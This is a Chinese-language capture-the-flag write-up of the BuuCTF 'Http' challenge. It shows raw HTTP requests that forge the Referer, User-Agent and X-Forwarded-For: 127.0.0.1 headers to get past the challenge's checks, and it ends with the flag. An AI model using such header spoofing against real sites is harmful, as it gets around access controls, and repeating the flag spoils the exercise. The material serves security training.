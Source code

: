 ```yaml
---
tags:
  - BuuCTF
  - 新手
  - Http
---
```


# \[极客大挑战 2019\] Http

## 寻找目标

一上来发现什么有效的信息都没有，打开 F12，发现有个 `Secret.php`

![](https://p.sda1.dev/13/09ef9a4b8fac065220e72f29d7f74d55/image.png)

## Referer

点进去，发现他希望我们的请求来自 `https://Sycsecret.buuoj.cn`

![](https://p.sda1.dev/13/ccd8b04f09295b0ec82d19787a701d90/image.png)

遇到这种情况，我们首先想到的是我们 Http 请求中的 Header 应当有 **`Referer`** 值，且 `Referer` = `https://Sycsecret.buuoj.cn`，这个网址不一定是真的，但网站只会识别请求中的 Referer，他并不知道你到底从哪里来，你只需要按部就班就是了，于是我们使用一个 API 测试工具（我用的 Apifox）往请求中添加 Referer，可参考下面的 Http 请求代码

```http
GET /Secret.php HTTP/1.1
Host: node4.buuoj.cn:25522
Referer: https://Sycsecret.buuoj.cn
User-Agent: Apifox/1.0.0 (https://apifox.com)
Accept: */*
Host: node4.buuoj.cn:25522
Connection: keep-alive
```

## User-Agent

发送请求后，可以看到如下界面，他希望我们使用 `Syclover` 浏览器访问这个网站，但是很明显，这个浏览器压根不存在，那么我们可以更改 Header 中的 **`User-Agent`**（简称 UA） 值来模拟一个 `Syclover` 浏览器，即 `User-Agent` = `Syclover`

![](https://p.sda1.dev/13/d1eaf8df2f944fb1ace78a8da45bd61a/image.png)

可参考下面的 Http 请求代码

```http
GET /Secret.php HTTP/1.1
Host: node4.buuoj.cn:25522
Referer: https://Sycsecret.buuoj.cn
User-Agent: Syclover
Accept: */*
Host: node4.buuoj.cn:25522
Connection: keep-alive
```

## X-Forwarded-For

发送请求后，可见如下界面，翻译一下，他希望我们是本地用户，我都从外网访问了，我怎么才能让他觉得我是本地用户呢？这就需要伪造 Header 中的 **`X-Forwarded-For`**（简称 XFF）值，XFF 通常存储的是原始客户端的 IP 地址，那就是说，如果我的 `X-Forwarded-For` = `127.0.0.1`，那我就相当于伪造成了本地用户

![](https://p.sda1.dev/13/0f7bc66ebca507ef1f230b7f4a046130/image.png)

可参考以下 Http 请求代码

```http
GET /Secret.php HTTP/1.1
Host: node4.buuoj.cn:25522
Referer: https://Sycsecret.buuoj.cn
User-Agent: Syclover
X-Forwarded-For: 127.0.0.1
Accept: */*
Host: node4.buuoj.cn:25522
Connection: keep-alive
```

发送请求后，即可得出 Flag 为 `flag{dd80eb69-8471-45f2-b0e7-5865d5d11382}`